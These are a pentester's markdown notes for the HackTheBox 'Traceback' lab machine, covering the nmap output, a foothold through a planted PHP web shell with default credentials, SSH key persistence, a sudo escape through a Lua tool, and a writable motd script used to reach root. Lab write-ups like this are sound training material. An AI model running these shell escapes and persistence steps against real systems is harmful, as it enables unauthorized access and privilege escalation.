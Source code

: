 ```yaml
---
attachments: [traceback-port80.png]
title: HackTheBox - Traceback Notes
created: '2020-05-21T10:59:22.213Z'
modified: '2020-05-21T11:20:08.836Z'
---
```


# HackTheBox - Traceback Notes

Machine IP: `10.10.10.181` 


## Nmap Scan

```bash
# Nmap 7.80 scan initiated Thu May 21 13:05:58 2020 as: nmap -A -p22,80 -oN initial.nmap 10.10.10.181
Nmap scan report for 10.10.10.181
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.16 (93%), Linux 3.18 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Android 4.2.2 (Linux 3.4) (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   206.01 ms 10.10.14.1
2   206.29 ms 10.10.10.181

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 21 13:06:22 2020 -- 1 IP address (1 host up) scanned in 25.55 seconds

```

## Initial Foothold

Opening http://10.10.10.181 (port 80) gives us a defaced page.

![Image](traceback-port80.png)

The HTML comment says `Some of the best web shells that you might need ;)`

Google the HTML comment and first result will be of a repository containing many web shells, appending all PHP file names gives us result that smevk.php has been used to deface, to login to the webshell (smevk.php),credentials `admin:admin` will work.

There are two users.
1. webadmin
2. sysadmin

Add your SSH key to /home/webadmin/.ssh/ as authorized_keys and login via SSH.

## Horizontal PrivEsc

Use `sudo -l` to check sudo permissions.

```
User webadmin may run the following commands on traceback: 
(sysadmin) NOPASSWD: /home/sysadmin/luvit
```

/home/webadmin/note.txt says

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

The `luvit` file in sysadmin's home directory is a lua script.

Run it and execute following command to get shell of sysadmin

`os.execute("/bin/bash -i")`

## PrivEsc to Root

Using LinPeas tells us that /etc/update-motd.d is writable by sysadmin.

Run `echo "cat /root/root.txt" > /etc/update-motd.d/00-header`

Exit out of the shell and SSH again.

The startup message will have the root flag as 00-header is responsible for running those commands when a new login appears.
